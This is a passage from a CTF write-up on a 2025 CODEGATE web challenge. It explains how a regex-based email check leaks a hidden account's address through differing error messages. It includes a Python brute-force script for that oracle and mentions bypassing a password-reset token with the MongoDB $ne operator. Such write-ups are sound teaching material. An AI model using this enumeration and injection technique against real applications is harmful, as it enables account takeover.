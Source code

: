 sendResetPassword Function

Therefore, we should be able to change the 'guide' email's password using this function.

However, the 'guide' email is also redacted, as can be seen in `app.js`.

![**The initMongo function in app.js**](/[KR]%202025%20CODEGATE%20CTF%20Web%20Challenges%20Writeup%2025595ea211f580cca84cefe7f436db5f/image%2028.png)

**The initMongo function in app.js**

Therefore, we must first discover the 'guide' email and then change the password for the 'guide' account.

The 'guide' email address can be found in the `createUser` function within `controllers/userController.js`.

![createUser function in controllers/userController.js](/[KR]%202025%20CODEGATE%20CTF%20Web%20Challenges%20Writeup%2025595ea211f580cca84cefe7f436db5f/image%2029.png)

createUser function in controllers/userController.js

The system uses a Regular Expression (Regex) to check the email. If the email account already exists, it returns **`User already exists`**. If the email doesn't exist but the username is already in use, it returns **`Username already taken` .**

We can exploit this behavior to leak the 'guide' email. First, we create a dummy account with a known username. Then, by sending requests with different Regex patterns in the email field and observing whether the server responds with `User already exists` or `Username already taken`, we can progressively reconstruct the full 'guide' email address.

```python
import requests
import tqdm

# URL = "http://43.203.117.21:3000"
URL = "http://127.0.0.1:3000"

words = "abcdefghijklmnopqrstuvwxyz0123456789"
guide_email= "guide_"
email_prefix = "guide\\_"
for i in tqdm.tqdm(range(11)):
    for s in words:
        # qwer계정을 먼저 만들어야 한다.
        r1 = requests.post(URL+'/api/auth/register', json={'username':'qwer','email':f'{email_prefix}{s}.*@admin\\.com', 'password':'qwer'})
        if "User already exists" in r1.text:
            guide_email+= s
            email_prefix+=s
            break
print(guide_email+"@admin.com")
```

![guide email leak](/[KR]%202025%20CODEGATE%20CTF%20Web%20Challenges%20Writeup%2025595ea211f580cca84cefe7f436db5f/image%2030.png)

guide email leak

Then, in the `/api/auth/reset` section, you can bypass the token using the $ne operator.
